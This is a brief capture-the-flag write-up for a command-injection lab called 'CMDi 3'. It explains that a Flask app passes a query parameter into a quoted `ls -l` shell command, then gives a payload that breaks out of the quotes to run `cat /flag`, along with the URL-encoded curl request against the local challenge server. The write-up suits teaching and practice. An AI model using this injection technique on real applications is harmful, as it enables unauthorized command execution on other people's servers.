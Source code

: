 # CMDi 3

```shell
cat /challenge/server
```

The Flask app takes a directory as query param (`/trial?storage-path`) and executes `ls -l '{storage-path}'`
Injection has to take care of `'`

Executing: \
ls -l '**.'; cat /flag; echo 'yayy**'

Start the server and use curl:

```shell
curl http://challenge.localhost:80/trial?storage-path=.%27%3B%20cat%20%2Fflag%3B%20echo%20%27yayy
```
